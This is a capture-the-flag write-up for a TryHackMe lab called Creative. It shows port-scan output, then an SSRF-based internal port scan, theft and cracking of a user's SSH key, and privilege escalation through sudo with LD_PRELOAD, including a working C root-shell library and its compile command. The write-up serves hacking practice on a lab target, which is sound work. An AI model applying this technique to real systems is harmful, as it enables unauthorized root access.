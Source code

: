 --------------

### CTF: THM
### Lab: Creative

--------------

![image](https://github.com/user-attachments/assets/2cde5215-f83e-42d3-a49a-8808077035a8)

--------------

- Rustscan's output

      ❯ rustscan -a 10.10.246.239  -- -Pn -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      Real hackers hack time ⌛
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 10.10.246.239:22
      Open 10.10.246.239:80
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
      
      Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-10 18:05 WAT
      NSE: Loaded 156 scripts for scanning.
      NSE: Script Pre-scanning.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 18:05
      Completed NSE at 18:05, 0.00s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 18:05
      Completed NSE at 18:05, 0.00s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 18:05
      Completed NSE at 18:05, 0.00s elapsed
      Initiating Connect Scan at 18:05
      Scanning creative.thm (10.10.246.239) [2 ports]
      Discovered open port 22/tcp on 10.10.246.239
      Discovered open port 80/tcp on 10.10.246.239
      Completed Connect Scan at 18:05, 0.44s elapsed (2 total ports)
      Initiating Service scan at 18:05
      Scanning 2 services on creative.thm (10.10.246.239)
      Completed Service scan at 18:06, 6.39s elapsed (2 services on 1 host)
      NSE: Script scanning 10.10.246.239.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 18:06
      Completed NSE at 18:06, 26.75s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 18:06
      Completed NSE at 18:06, 9.60s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 18:06
      Completed NSE at 18:06, 0.01s elapsed
      Nmap scan report for creative.thm (10.10.246.239)
      Host is up, received user-set (0.21s latency).
      Scanned at 2024-11-10 18:05:57 WAT for 44s
      
      PORT   STATE SERVICE REASON  VERSION
      22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Lin
      | ssh-hostkey: 
      |   3072 a0:5c:1c:4e:b4:86:cf:58:9f:22:f9:7c:54:3d:7e:7b (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCsXwQrUw2YlhqFRnJpLvzHz5VnTqQ/XrEJU/JEiooZu4aPe4tiRdNQKB09stTOfaMUFsbXSYGjvf5u+gavNZOOTCQxEoKeZzPzxUJ0baNaHNuF4Xo3PpqiUr+qEZUyZJKNrH4O8hErH/2h7AUEPpPIo7zEK1ZzqFNWcpOqguYOFVZMag999UzNEj8Wx8Qj4LfTWKLubcYS9iKN+exbAxXOIdbpolVtIFh0mP/cm9WRhf0z9WR9tX1FvJ
      |   256 47:d5:bb:58:b6:c5:cc:e3:6c:0b:00:bd:95:d2:a0:fb (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAA4JrZXR5KvRK8Y=
      |   256 cb:7c:ad:31:41:bb:98:af:cf:eb:e4:88:7f:12:5e:89 (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFf4qwz85WzZVwohJm4pYByLpBj7j2JiQp
      80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
      | http-methods: 
      |_  Supported Methods: GET HEAD
      |_http-server-header: nginx/1.18.0 (Ubuntu)
      |_http-title: Creative Studio | Free Bootstrap 4.3.x template
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

- Subdomain's fuzzing with ffuf

![image](https://github.com/user-attachments/assets/b68a3272-7f39-4f08-a771-4593d66863ea)

- In subdomain `beta`, the index page allows users to load urls which is vulnerable to `SSRF`.I decided to fuzz for internal ports on the localhost.

![image](https://github.com/user-attachments/assets/81a3d933-1a17-4dc0-ba8d-7683af9ca47d)

- I fuzzed for ports with burp intruder and I discovered a directory listing on port `1337`.

![image](https://github.com/user-attachments/assets/92a5ec6d-fc57-4e3c-9b41-1cd610eba3dd)

- I was able to read the `id_rsa` file for user `saad`.

![image](https://github.com/user-attachments/assets/fce36a4c-4dc6-4b41-bdf2-1dcbe466dc2e)

- The `id_rsa` key requires a passphrase which I was able to crack with `john`.

![image](https://github.com/user-attachments/assets/95546ca2-5f43-42a9-b532-53fe0ece9a4a)

- SSH access
  
![image](https://github.com/user-attachments/assets/cc51b641-c616-4f1d-93a4-e83e35241a61)

----------------

### PRIVESC with LD_PRELOAD

- I discovered user `saad`'s password in his `.bash_history` file.

![image](https://github.com/user-attachments/assets/e9b6365f-fd63-409f-ab2e-74711b04edd3)

- I ran `sudo -l` and discovered that I can run `ping` as root.Also the `env` variable is set to `LD_PRELOAD`.

![image](https://github.com/user-attachments/assets/0bfcd362-a8c9-475f-853f-39deebca5d18)

- I compiled the code below to a  shared library.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

- I executed the bash instruction below to compile the code.

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

![image](https://github.com/user-attachments/assets/e1d668e7-d54f-4f05-b303-80541e68bdd4)

- Set `LD_PRELOAD` variable in conjuction with the binary you have sudo permission to execute.

![image](https://github.com/user-attachments/assets/7d7e86e6-146c-4a68-9ea4-433a06ec8395)

- Root!!!

![image](https://github.com/user-attachments/assets/b03506ab-24b0-443f-8c60-4dc7cf2e0b87)
------------------

### THANKS FOR READING!!!

------------------

### Reference:

- [[LD_PRELOAD]](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/)

------------------












